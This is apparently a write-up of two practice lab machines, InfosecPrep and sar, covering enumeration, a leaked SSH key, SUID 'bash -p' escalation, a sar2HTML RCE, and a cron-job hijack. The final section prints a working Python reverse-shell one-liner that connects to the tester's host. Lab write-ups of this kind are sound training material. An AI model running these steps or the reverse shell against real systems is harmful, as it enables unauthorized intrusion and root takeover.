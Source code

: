 # InfosecPrep 192.168.239.89

## Service Scanning
In this step i uesed <b> nmap </b>  with option -sV 
``` man
  -sV : Probe open ports to determine service/version info
```
* <b>result :</b>

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.16.10.png)

as shown in the image below I got in result open port 80 running HTTP server and 22 running ssh. now I know that there is a web app on this server I get into the web app and found a website hosted using WordPress and an article on the website. image to the website after reading the article I can see a small hint about the user of this box. now the service scanning step is done we can go to the next step .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.16.39.png)
 ## Web Enumeration

In this step, I used Directory/File Enumeration using the ffuf tool with a common wordlist.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.20.09.png)

from ffuf result i can see that there is a robots.txt i check it and found a dissalowed dirctory i check it too and found secrect.txt .

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.22.33.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.23.03.png)

the secret.txt contain encrypted data after I decode it with the base64 tool I got an ssh private key and this is a sensitive data shared publicly I can use it to ssh to the server remotely using `ssh -i option` because I already know the username,
after access to the server now we are in but only as oscp user, we want to go as root so we will check if the is any way to upgrade Privilege to root so this is the next step.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.25.49.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.26.22.png)

## Privilege Escalation

After access to the machine, we will check how we can do Privilege Escalation, there is a command I used to check if there is  SUID (Set owner User ID up on execution) .

`find / -perm -u=s 2> /dev/null`

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.28.16.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.30.16.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.30.29.png)

as we can see there are some binaries as SUID we can check GTObin how we can use this binary to escalate privilege to root, from the result we can see that bash in the list and from https://gtfobins.github.io/ we can see that bash can escalate privilege using `bash -p`

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.31.00.png)

and finally, we are root.

# sar 192.168.239.89

In this machine, I did all the same steps as the first machine but in the step 
<b>Web Enumeration </b> I didn't find any sensitive data I found only a directory to sar2HTML I check that directory and I got a SAR service running on the server I check if the version of SAR fi it exploit and from https://www.exploit-db.com/exploits/47204 I can see there is a vulnerable I can use it to run shell code execution as a reverse shell what I did first I check ls command and `whoaim` after that I run the server with NC listening in my IP and port I provide and established a connection using a socket with help of python command finally I have a shell from the server I'm now as the www-data user.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.35.06.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.35.46.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.37.35.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.38.01.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.38.13.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.38.54.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.39.31.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.40.07.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.41.40.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.42.42.png)


## Privilege Escalation

In this machine also checked if there is any binary to use to escalate privilege but unfortunately I did not find any so I checked crontab I found there is a script called finally.sh run every 5 minutes with root permission so find this script location I cat it and got that script called other script called write.sh but write.sh owned by www-data and finnaly.sh with root user so i can use this to make crontab run something for me as root by changing the write.sh so what I did i removed the write.sh from server i and i create new now in my machine with.
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.239",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
and run an HTTP server from my machine and download it to the server using `wget` after that i changed permission to make it executable because the finnaly.sh script call write.sh script with ./write needs permission to execute now all I need to wait for 5 minutes waiting for crontab to get the reverse shell with as root.

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.44.19.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.44.47.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.44.56.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.45.10.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.52.00.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.52.47.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2000.57.14.png)

![alt text](https://github.com/BleedTheFreak/oscp_report/blob/main/imgs/Screen%20Shot%202022-10-05%20at%2001.05.16.png)
